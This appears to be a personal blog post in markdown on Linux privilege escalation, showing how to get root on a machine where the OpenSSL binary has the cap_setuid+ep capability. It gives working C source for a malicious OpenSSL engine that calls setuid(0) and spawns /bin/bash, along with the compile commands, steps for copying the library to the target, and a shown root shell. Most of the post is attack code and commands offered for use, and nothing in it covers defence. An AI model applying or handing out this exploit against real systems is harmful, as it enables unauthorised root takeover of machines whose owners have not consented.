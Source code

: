 ```yaml
---
title: Linux-Privilege Escalation
tags: linux privEsc
article_header:
  type: cover
published: true
author: krill
---
```


 Would be covering some linux priviledge escalation techniques from basic to advanced here.



<!--more-->

## OpenSSL cap_setuid+ep

> Run the following command to check for the set capabilities on the target machine.  
>`getcap -r / 2>/dev/null`  
>if you see `/usr/bin/openssl = cap_setuid+ep`, we can exploit this box with this method.  
>on your attack machine you need to craft an exploit code in C.  
>For this exploit to work, you need to have the libssl-dev package installed; if you don't, you can easily install it with the following code:  
>`sudo apt-get install libssl-dev`  
>>### Time to craft the exploit:
>>Create a file named `ssl-ploit.c`, or whatever you like XD. Write the following into the file. 👻
>> ```c 
>> #include <openssl/engine.h>
>>
>>static int bind(ENGINE *e, const char *id)
>>{
>>  setuid(0); setgid(0);
>>  system("/bin/bash");
>>}
>>
>>IMPLEMENT_DYNAMIC_BIND_FN(bind)
>>IMPLEMENT_DYNAMIC_CHECK_FN()
>> ```
>>
>>### Compilattion: 
>>run the following commands:  
>>```
>>1. gcc -fPIC -o ssl-ploit.o -c ssl-ploit.c  
>>2. gcc -shared -o ssl-ploit.so -lcrypt ssl-ploit.o  
>>```
>> finally; the exploit is complete 💥. You should get a `'<whatever_name_you_saved_your_exploit_as>'.so` file. in my case, `ssl-ploit.so` . 
>> 
>>### Exploitation:
>>Now you've got just one more thing to do, you need to transfer the `ssl-ploit.so` file to the target machine. (you can send it to `/dev/shm` or your home directory using `python-simple-webserver` or `scp`)   
>>Then run the exploit :)
>>```javascript
>>
>>user@server$ openssl eng -engine ./ssl-ploit.so
>>root@server# whoami
>>root
>>```
>>
>> FInally Root 📸; Thanks for reading. *Sayonara~*
>> 






